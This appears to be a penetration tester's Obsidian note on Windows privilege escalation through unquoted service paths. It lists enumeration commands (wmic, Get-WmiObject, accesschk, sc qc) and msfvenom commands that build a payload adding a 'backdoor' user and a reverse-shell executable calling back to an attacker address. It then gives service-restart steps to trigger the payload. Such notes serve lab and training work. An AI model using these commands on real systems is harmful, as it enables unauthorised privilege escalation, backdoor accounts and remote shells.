 #### Tags: [[06 - Privilege Escalation (TA0004)]] 

## Overview 

```markdown
```
## Enumeration 

### Automated

```markdown
```

### Manual
```
PS:> 
Get-WmiObject win32_service | select Name,PathName,StartMode,StartName | where {$_.StartMode -ne "Disabled" -and $_.StartName -eq "LocalSystem" -and $_.PathName -notmatch "`"" -and $_.PathName -notmatch "C:\\Windows"} | Format-List

CMD:> 
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
```

```markdown
# Identfy service with weak permissions or unquoted paths
CMD> .\accesschk64.exe /accepteula -uwcqv studentuser ***

# Manually Query Service 
CMD:> sc qc "service_name"
PS:> cmd /c sc qc "BOOTP Turbo"

# AccessCHK - Sysinternals
## Check Write access to Directory under Unquoted Service PATH
C:\PrivEsc\accesschk.exe /accepteula -wuqvd "C:\Program Files\Unquoted Path Service\"
RW BUILTIN\Users
	FILE_ALL_ACCESS
# ICACLS - Inbuilt binary

```

![[Pasted image 20240330234504.png]]
![[Pasted image 20240330234652.png]]
## Exploitation 

```markdown
# Add User Exploiation
msfvenom -p windows/adduser USER=backdoor PASS=backdoor -f exe > service.exe

# Reverse Shell Exploitation
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f exe -o reverse.exe
```
### Start the service post modification of PATH
- Restart Service
	- `net stop <service>`
	- `net start <service>`
- Restart Machine

## Resources

```markdown
```

#### Notes | Bonus
- Create Links to this Page! 
